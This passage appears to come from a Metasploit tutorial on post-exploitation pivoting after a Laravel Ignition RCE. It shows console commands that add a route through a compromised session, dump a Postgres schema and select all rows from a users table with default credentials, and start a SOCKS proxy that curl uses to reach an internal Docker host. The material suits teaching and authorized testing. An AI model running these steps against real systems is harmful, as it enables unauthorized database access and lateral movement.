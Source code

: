            
msf6 exploit(multi/php/ignition_laravel_debug_rce) > route add 172.17.0.1/32 -1
[*] Route added

        

We can print the routing table to verify the configuration settings:
Metasploit Console Commands

           
msf6 exploit(multi/php/ignition_laravel_debug_rce) > route print

IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   172.17.0.1         255.255.255.255    Session 3
   172.28.101.51      255.255.255.255    Session 3


[*] There are currently no IPv6 routes defined.

        

With the previously discovered database credentials and the routing table configured, we can start to run Metasploit modules that target Postgres. Starting with a schema dump, followed by running queries to select information out of the database:
Metasploit Console Commands

           
# Dump the schema
use auxiliary/scanner/postgres/postgres_schemadump
run postgres://postgres:postgres@172.28.101.51/postgres

# Select information from a specific table
use auxiliary/admin/postgres/postgres_sql
run postgres://postgres:postgres@172.28.101.51/postgres sql='select * from users'

        

To further pivot through the private network, we can create a socks proxy within Metasploit:
Metasploit Console Commands

           
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > run srvhost=127.0.0.1 srvport=9050 version=4a
[*] Auxiliary module running as background job 1.

[*] Starting the SOCKS proxy server

        

This will expose a port on the attacker machine that can be used to run other network tools through, such as curl or proxychains
Shell commands

           
# From the attacker’s host machine, we can use curl with the internal Docker IP to show that the web application is running, and the socks proxy works
$ curl --proxy socks4a://localhost:9050 http://172.17.0.1 -v
